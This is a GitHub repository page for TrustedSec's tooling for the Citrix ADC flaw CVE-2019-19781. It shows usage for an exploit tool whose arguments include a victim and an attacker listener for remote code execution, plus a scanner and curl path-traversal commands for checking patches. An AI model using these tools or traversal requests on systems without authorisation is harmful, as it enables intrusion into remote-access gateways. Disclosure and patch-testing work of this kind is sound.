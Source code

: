 # cve-2019-19781

This is a tool published for the Citrix ADC (NetScaler) vulnerability. We are only disclosing this due to others publishing the exploit code first.

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/trustedsec](https://github.com/trustedsec) |
| Url      | [https://github.com/trustedsec/cve-2019-19781](https://github.com/trustedsec/cve-2019-19781)                                               |
| Stars    | 564                                                          |
| License  | Other                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2019-19781

This was only uploaded due to other researchers publishing their code first. We would have hoped to have had this hidden for awhile longer while defenders had appropriate time to patch their systems.

We are all for responsible disclosure, in this case - the cat was already out of the bag.

Exploits: CVE-2019-19781

## Citrixmash (CVE-2019-19781 exploit)

root@stronghold-nix:/home/relik/Desktop/git/cve-2019-19781# python citrixmash.py 

Citrixmash v0.1 - Exploits the Citrix Directory Traversal Bug: CVE-2019-19781
Tool Written by: Rob Simon and Dave Kennedy
Contributions: The TrustedSec Team 
Website: https://www.trustedsec.com
INFO: https://www.trustedsec.com/blog/critical-exposure-in-citrix-adc-netscaler-unauthenticated-remote-code-execution/
Forensics and IOCS: https://www.trustedsec.com/blog/netscaler-remote-code-execution-forensics/

This tool exploits a directory traversal bug within Citrix ADC (NetScalers) which calls a perl script that is used
to append files in an XML format to the victim machine. This in turn allows for remote code execution.

Be sure to cleanup these two file locations:
    /var/tmp/netscaler/portal/templates/
    /netscaler/portal/templates/

Note that DNS hostnames and IP addresses are supported in victimaddress and attackerip_listener fields.

Usage:

python citrixmash.py <victimaddress> <victimport> <attackerip_listener> <attacker_port>

usage: citrixmash.py [-h] target targetport attackerip attackerport

## CVE-2019-19781 Scanner

This is a simple test to see if the server is still vulnerable to CVE-2019-19781.

Usage: python3 cve-2019-19781.py <serverip> <serverport>

Note you can use CIDR notations such as 192.168.1.1/24 and hostnames as well.

It will result if the server is still vulnerable or not. You can only do one server at a time.

CVE-2019-19781-Scanner
Company: TrustedSec
Written by: Dave Kennedy
This will look to see if the remote system is still vulnerable to CVE-2019-19781. This 
will only scan one host at a time.
You can use CIDR notations as well for example: 192.168.1.1/24
You can use hostnames instead of IP addresses also.
You can also use a file with IP addresses generated by an external tool.

Example: python3 cve-2019-19781_scanner.py 192.168.1.1/24 443
Example2: python3 cve-2019-19781_scanner.py 192.168.1.1 443
Example3: python3 cve-2019-19781_scanner.py fakewebsiteaddress.com 443
Example4: python3 cve-2019-19781_scanner.py as15169 443
Example5: python3 cve-2019-19781_scanner.py 192.168.1.1/24 443 verbose
Example6: python3 cve-2019-19781_scanner.py file:hostfile 443

Usage: python3 cve-2019-19781_scanner.py targetip targetport

usage: cve-2019-19781_scanner.py [-h] target targetport [verbose]


## Manually Validate Patch

If you want to test to see if this exposure is mitigated use the following:

`curl https://host/vpn/../vpns/cfg/smb.conf --path-as-is`

Or if you are using non public or internal enterprise CA, you can override using the --insecure option

`curl https://host/vpn/../vpns/cfg/smb.conf --path-as-is --insecure`

Either a 403 means that you are patched or if it returns a Citrix website and NOT the smb.conf file itself.

If you can see smb.conf, then you are vulnerable.

## Installation

To install the requirements, you will need to run the command below. 

pip3 install -r requirements.txt



## Get the content

```
git clone https://github.com/trustedsec/cve-2019-19781
cd cve-2019-19781
```

{% embed url="https://github.com/trustedsec/cve-2019-19781" %}

<figure><img src="https://avatars.githubusercontent.com/u/3160808?v=4" alt=""><figcaption><p>trustedsec</p></figcaption></figure>
